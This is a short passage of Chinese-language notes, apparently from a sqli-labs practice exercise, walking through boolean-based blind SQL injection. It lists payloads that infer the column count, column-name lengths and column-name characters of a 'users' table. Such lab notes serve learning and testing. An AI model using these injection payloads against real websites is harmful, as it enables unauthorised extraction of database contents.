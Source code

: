 ```
SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=DATABASE() LIMIT 0,1  
# 为查询当前数据库第一个表的名称，查询第二个的的话用 limit 1,1
```

<img src="图片\Snipaste_2023-01-20_14-01-12.png" alt="Snipaste_2023-01-20_14-01-12" style="zoom: 67%;" />

 获取表的字段数量，count() 函数返回数量

```
?id=1' and if((select count(column_name) from information_schema.columns where table_schema='security' and table_name='users')=6,1,0) --+
```

获取字段的长度，limit 0,1 是第一个字段长度

```
?id=1' and if((select length(column_name) from information_schema.columns where table_schema='security' and table_name= 'users' limit 0,1)=2,1,0) --+
```

获取表中的字段名 ，由以上得出我们需要的表名为 users，AND table_schema='security' 体现了别的库可能也有 users 表，要排除

```
?id=1'and if(substring((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' AND table_schema='security' limit 0,1),1,1)='i',1,0)--+
```
